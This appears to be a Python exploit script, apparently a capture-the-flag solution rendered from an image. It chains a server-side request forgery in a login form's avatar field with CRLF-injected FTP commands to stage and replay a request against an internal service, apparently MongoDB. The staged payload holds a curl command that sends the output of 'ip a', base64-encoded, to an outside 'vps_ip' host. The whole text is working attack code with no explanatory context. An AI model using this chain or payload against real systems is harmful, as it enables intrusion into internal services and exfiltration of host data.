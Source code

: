 ```python

from mongo import get_mongo
request = get_mongo('curl vps_ip:1234/ -H "Host: `ip a|base64`"')


def ssrf(url):
    page = requests.post(a + '/login', data={
        'username': get_random_id(),
        'password': get_random_id(),
        'avatar': url,
        'submit': 'Go!'
    }).text
    page = page[page.find('data:image/png;base64,') +
                len('data:image/png;base64,'):]
    page = page[:page.find('"')]
    try:
        page = b64decode(page).decode()
    except:
        page = b64decode(page)
    return page

def inject(cmd):
    cmd = '\r\n'.join(cmd)
    return ssrf(f'''ftp://fan:root{cmd}@{ftpd}/''')

def sendfile(file):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('0.0.0.0', int(bind.split(':')[1])))
    sock.listen(1)
    (client, address) = sock.accept()
    print('accepted', address)
    client.send(file)
    print('sent')
    client.close()


thread = threading.Thread(target=sendfile, args=(request,))
thread.start()

print(ssrf(f'ftp://fan:root@{ftpd}/'))

inject(['TYPE I', get_port_cmd(bind), 'STOR frankli'])
thread.join()
print('uploaded')
print(ssrf(f'ftp://fan:root@{ftpd}/'))
print('replaying')
inject(['TYPE I', get_port_cmd(targ), 'RETR frankli'])
print('replayed')
print(requests.get(a, cookies={'session': '1eb74496-98b9-4acc-94fb-75ba15ddb803'}).headers)
print('requested')
inject(['RNFR frankli', 'RNTO trash'])
print(ssrf(f'ftp://fan:root@{ftpd}/'))
```
